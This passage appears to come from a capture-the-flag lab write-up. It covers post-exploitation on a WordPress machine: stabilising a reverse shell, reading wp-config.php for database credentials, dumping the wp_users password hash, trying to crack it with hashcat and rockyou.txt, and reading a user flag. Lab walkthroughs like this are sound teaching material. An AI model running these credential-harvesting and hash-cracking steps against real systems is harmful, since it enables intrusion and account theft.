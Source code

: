 ```
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=xterm-256color; stty rows 38 columns 158; reset;
```

- We now have an upgraded reverse shell with tab completition, arrow keys support, etc.
- Press enter if you don't see the cursor or if its in some random place on the terminal.
- If the terminal still says: 'TERM environment variable not set.', set it manually with:
- `export TERM=xterm-256color` or `export TERM=xterm`

#### WordPress Configuration Files

- `cd /var/www/html/wordpress`
- `cat wp-config.php`

```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'yourpasswordhere' );
```

### MySQL

- `mysql -u wordpress -p` => `yourpasswordhere`
- `show databases;`
- `use wordpress;`
- `show tables;`
- `select * from wp_users;`
- `exit;`

```
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | victor     | $P$BbJPY0i5LJ09e0nlpnyhZcxn.DvqDX/ | victor        | noemail@gmail.com |          | 2019-08-30 09:49:40 |                     |           0 | victor       |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
```

- Paste the hash in `crack.txt`.
- `hashid crack.txt -m` => 400
- ```
  hashcat -m 400 -w 3 crack.txt /usr/share/wordlists/rockyou.txt -O
  ```
- It ran through the entire `rockyou.txt` pretty quickly but did not yield any password.

#### User

- `cd /home/saket && ls`
- `cat user.txt`
- ```
  af3c658dcf9d7190da3153519c003456
  ```

---